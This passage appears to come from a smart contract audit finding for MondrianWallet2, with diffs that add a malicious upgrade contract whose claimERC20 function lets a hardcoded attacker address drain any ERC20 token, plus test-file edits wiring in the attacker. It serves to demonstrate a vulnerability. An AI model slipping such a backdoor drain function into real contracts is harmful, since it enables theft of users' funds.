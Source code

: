 ```diff

    
    
+    /// CLAIM ANY ERC20, CALLABLE BY ATTACKER
+   function claimERC20(address token, uint256 value) external {
+        if(msg.sender == address(0x123)){
+            SafeERC20.safeTransfer(IERC20(token), address(0x123), value);
+        }
+    }

    
   /// Existing codebase
}

```

In existing test suite we following imports, test

```diff
pragma solidity 0.8.24;

   import {Test, console2} from "forge-std/Test.sol";
   import {MondrianWallet2} from "src/MondrianWallet2.sol";
+ import {Attack} from "src/Attack.sol";

// Era Imports
import {
    Transaction,
    MemoryTransactionHelper
} from "lib/foundry-era-contracts/src/system-contracts/contracts/libraries/MemoryTransactionHelper.sol";
import {BOOTLOADER_FORMAL_ADDRESS} from "lib/foundry-era-contracts/src/system-contracts/contracts/Constants.sol";
import {ACCOUNT_VALIDATION_SUCCESS_MAGIC} from
    "lib/foundry-era-contracts/src/system-contracts/contracts/interfaces/IAccount.sol";

// OZ Imports
import {MessageHashUtils} from "@openzeppelin/contracts/utils/cryptography/MessageHashUtils.sol";
import {ERC1967Proxy} from "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";

// Foundry Devops
import {ZkSyncChainChecker} from "lib/foundry-devops/src/ZkSyncChainChecker.sol";

interface _CheatCodes {
    function ffi(string[] calldata) external returns (bytes memory);
}

contract MondrianWallet2Test is Test, ZkSyncChainChecker {
    using MessageHashUtils for bytes32;

    MondrianWallet2 implementation;
    MondrianWallet2 mondrianWallet;
+    Attack maliciousImplementation;
+    address attacker = address(0x123);
    ERC20Mock usdc;
    bytes4 constant EIP1271_SUCCESS_RETURN_VALUE = 0x1626ba7e;
    _CheatCodes cheatCodes = _CheatCodes(VM_ADDRESS);

    uint256 constant AMOUNT = 1e18;
    bytes32 constant EMPTY_BYTES32 = bytes32(0);
    address constant ANVIL_DEFAULT_ACCOUNT = 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266;

    function setUp() public {
```